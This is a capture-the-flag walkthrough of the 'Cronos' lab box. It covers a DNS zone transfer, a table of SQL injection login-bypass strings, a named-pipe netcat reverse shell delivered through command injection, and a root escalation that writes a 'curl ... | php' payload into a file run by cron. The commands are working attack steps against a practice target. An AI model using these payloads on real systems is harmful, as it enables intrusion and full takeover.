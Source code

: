 # Cronos

![image](https://user-images.githubusercontent.com/10210108/79369967-d6a3e380-7f1f-11ea-95c4-5bcb116f5c27.png)

## Overview

Cronos is an Ubuntu box running Apache hosting a few different websites. I was able to determine the dns zone that the box was hosting and perform a zone transfer which gave me information about which websites it was hosting. From there some additional enumeration uncovered an admin page that was vulnerable to SQLi, allowing me to bypass the login form. This allowed access to the "Net Tool v0.1" page which was exploited to execute operating system commands and create a reverse shell as www-data. Running LinEnum showed that a cron job was running as root and that an unprivileged user had access to write to a file called artisan. Leveraging write access to the file, I copied a command that created a reverse shell as user root.

## Enumeration

**Software**

* Ubuntu 16.04.2 LTS
* ISC BIND 9.10.3-P4-Ubuntu
* OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
* Apache httpd 2.4.18 ((Ubuntu))
* laravel 5.4.16 https://github.com/laravel/laravel - released May 14, 2017
* Sudo version 1.8.16                                                                                                                                                  
* mysql  Ver 14.14 Distrib 5.7.17

**Port Scan**

```
nmap -vv -sT -A -p- 10.10.10.13 -oN /mnt/data/boxes/cronos/_full_tcp_nmap.txt
```

* 22/tcp - ssh
* 53/tcp - dns
* 80/tcp - http

**Directory/File Brute Force**

```
gobuster dir -u http://cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10 -x php,html
```

* /index.php 
* /css
* /js

```
gobuster dir -u http://www.cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10 -x php,html
```

* /index.php 
* /css
* /js

```
gobuster dir -u http://admin.cronos.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 10 -x php,html
```

/index.php
/welcome.php
/logout.php
/config.php 
/session.php

**DNS Info**

Reverse DNS Lookup

```
dig a 13.10.10.10.in-addr.arpa @10.10.10.13
```

![image](https://user-images.githubusercontent.com/10210108/80645603-60cc6b80-8a39-11ea-8aec-8030e946727c.png)

Zone Transfer

```
dig axfr 10.10.10.13 @1.2.3.4
```
* cronos.htb
* admin.cronos.htb
* www.cronos.htb

## Steps (User)

When I see port 53/dns open on the target I usually try a zone transfer. The first step was to determine the name of the zone which can be done by guessing (I see boxname.htb a lot) or by doing a reverse dns lookup. I chose the latter method and confirmed that zone cronos.htb was being hosted on the box. I was then able to use dig to do a zone transfer, showing all the records for the cronos.htb zone.

![image](https://user-images.githubusercontent.com/10210108/80645146-b94f3900-8a38-11ea-8aac-c47510ad08bb.png)

Using virtual hosts, different sites can be hosted on the same server. The server routes the request to the appropriate site based on the host header specified in the request. To facilitate this I updated /etc/hosts so I could browse to the site by name.

```
10.10.10.13     cronos cronos.htb admin.cronos.htb www.cronos.htb
```

admin.cronos.htb and www.cronos.htb pointed to the same site and all the links were to external websites. The source code also didn't show anything of use. The links to indicate that the site runs on laravel but I was unable to determine the version. I took note of this and moved on to admin.cronos.htb. 

![image](https://user-images.githubusercontent.com/10210108/80649578-4fd32880-8a40-11ea-8e93-24615e2b866d.png)

Browsing to admin.cronos.htb showed a username and password form. The source code didn't disclose anything that would've help me log in so I started going through my list of common SQL injection tests.

User Name | Password | SQL Query
:---: | :---: | :---
| user | user | SELECT * FROM users WHERE name='user' and password='user' |
| user | ' or '1'='1 | SELECT * FROM users WHERE name='user' and password='' or '1'='1' |
| user | ' or 1='1  | SELECT * FROM users WHERE name='user' and password='' or '1'='1' |
| user | 1' or 1=1 -- - | SELECT * FROM users WHERE name='user' and password='' or 1=1-- -' |
| ' or '1'='1 | ' or '1'='1 | SELECT * FROM users WHERE name='' or '1'='1' and password='' or '1'='1' |
| ' or ' 1=1 | ' or ' 1=1 | SELECT * FROM users WHERE name='' or ' 1=1' and password='' or ' 1=1' |
| 1' or 1=1 -- - | blah | SELECT * FROM users WHERE name='1' or 1=1 -- -' and password='blah'|

Trying _1' or 1=1 -- -_ for the username worked and brought me to a page called "Net Tool v0.1" which allows user input to run traceroute and ping commands. As a test I pinged my machine.

![image](https://user-images.githubusercontent.com/10210108/80649146-7775c100-8a3f-11ea-8edb-cba7d485ce0b.png)

This page is actually running system commands in the background and displaying the results. It turns out I can just paste a command directly into the text field to get a reverse shell as www-data. 

![image](https://user-images.githubusercontent.com/10210108/80741013-f540d780-8ae6-11ea-934b-ee95f8ea57ab.png)

I set up a netcat listener (nc -lvnp 4200) and input the command.

```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.22 4200 >/tmp/f 
```

![image](https://user-images.githubusercontent.com/10210108/80741115-202b2b80-8ae7-11ea-90a4-1309ca385a66.png)

## Steps (root/system)

I used a script called LinEnum.sh to do some additional enumeration and transferred it to the target box.

> [LinEnum](https://github.com/rebootuser/LinEnum) github repo

I copied LinEnum to my working directory and started a python http server in preperation to transfer the file.

```
cp ~/tools/LinEnum/LinEnum.sh le.sh
python3 -m http.server 80
```

On the target I used wget to download the file,  made the file executable, and ran it.

```
wget http://10.10.14.22/le.sh
chmod +x le.sh && ./le.sh
```

The LinEnum results showed something interesting under _[-] Crontab contents:_. The box name being "cronos" is a pretty big hint and is an indication I'm on the right path. The job ran a php file as root every minute.

![image](https://user-images.githubusercontent.com/10210108/80748836-933a9f00-8af3-11ea-90e5-f156a0c59615.png)

```
* * * * *       root    php /var/www/laravel/artisan schedule:run >> /dev/null 2>&1
```

Looking at the permissions of the /var/www/laravel/artisan showed that user www-data can write to this file. This meant that I could write data to the artisan file and have it be executed as root.

I copied the php reverse shell to my working directory, updated it with my box's port/IP, and started a netcat listener on a new port (nc -lvnp 4201).

```
cp ~/tools/webshells/php/php-reverse-shell.php rshell.php
nc -lvnp 4201
```

With my python http server still running, I echo'd a php command to the artisan file. The command downloaded rshell.php from my box (the reverse shell) and executed it.
```
echo "<?php system('curl http://10.10.14.22/rshell.php | php') ?>" > /var/www/laravel/artisan
```
Once executed on the target I received a callback and shell as root.

![image](https://user-images.githubusercontent.com/10210108/80750548-4906ed00-8af6-11ea-8943-95e433b5e519.png)
